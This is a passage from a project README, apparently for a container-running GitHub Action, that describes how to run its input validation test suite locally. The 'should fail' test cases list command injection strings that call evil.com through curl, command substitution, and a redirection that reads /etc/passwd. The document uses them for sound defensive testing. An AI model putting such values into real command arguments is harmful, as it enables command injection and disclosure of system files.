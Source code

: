 This project uses a **comprehensive testing approach** with both local testing
capabilities and CI/CD integration.

### Local Testing

Run the input validation test suite locally:

```bash
# Run all security validation tests
./tests/test-input-validation.sh

# Run with verbose output for debugging
./tests/test-input-validation.sh -v

# Keep containers after tests for inspection
./tests/test-input-validation.sh --no-cleanup

# Show help and options
./tests/test-input-validation.sh --help
```

### Test Suite Overview

#### Input Validation Tests (`tests/test-input-validation.sh`)

A comprehensive shell script that validates the action's security measures
and input handling:

**Security Tests (Should Fail):**

- **Command Injection:** `--memory=512m; curl evil.com`
- **Variable Expansion:** `--env=${HOME}/malicious`, `--env=$PATH`
- **Code Execution:** `--memory=$(curl evil.com)`, `--memory=\`curl evil.com\``
- **Shell Redirection:** `--memory < /etc/passwd`, `--memory > /tmp/evil`
- **Invalid Formats:** `--mem@ry=512m`

**Valid Input Tests (Should Succeed):**

- **Resource Limits:** `--memory=512m --cpu-shares=512`
- **Network Config:** `--network=bridge --publish=8080:8080`
- **Combined Args:** `--memory=512m --cpu-shares=512 --restart=unless-stopped`
- **Short Flags:** `-m 512m`
- **Empty Args:** `""`

**Test Features:**

- **Local Execution:** Run the same tests locally and in CI
- **No Parameter Escaping:** Direct string testing without GitHub Actions
  template expansion issues
- **Comprehensive Coverage:** 16 different security and functionality scenarios
- **Colored Output:** Clear pass/fail indicators with detailed logging
- **Cleanup Management:** Automatic container cleanup with optional retention

#### CI/CD Integration

